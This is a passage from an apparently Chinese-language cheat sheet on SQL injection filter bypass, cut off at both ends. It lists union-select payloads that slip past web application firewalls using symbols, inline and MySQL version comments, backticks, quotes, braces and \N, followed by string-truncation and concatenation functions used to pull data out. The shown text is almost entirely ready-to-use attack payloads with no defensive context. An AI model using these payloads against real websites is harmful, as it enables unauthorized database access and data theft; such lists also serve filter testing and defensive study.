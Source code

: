 	1 union select~1,xx

*!符号：*

	1 union select!1,xx

*@`` @^符号：(at后面是反引号)*

	1 union select@`1`,xx
	1 union select@^1,xx

4、注释: 任意/**/注释，例如

	1/*here*/union select xx

5、特殊注释: 例如

	1 union/*!50000select*/1,xx

6、反引号

	1 union select`user`,xx

7、单/双引号:

	1 union select"1",xx

8、{}大括号

	1 union select{x 1},xx

9、\N符号

	1 union select\N,xx


##### 位置6的替换

同位置5的替换

##### 位置7的替换

参考位置5，无算数运算符

##### 其他

1、字符串截取函数

	Mid(version(),1,1)
	Substr(version(),1,1)
	Substring(version(),1,1)
	Lpad(version(),1,1)
	Rpad(version(),1,1)
	Left(version(),1)
	reverse(right(reverse(version()),1)

2、字符串连接函数

	concat(version(),'|',user());
	concat_ws('|',1,2,3)

3、字符转换
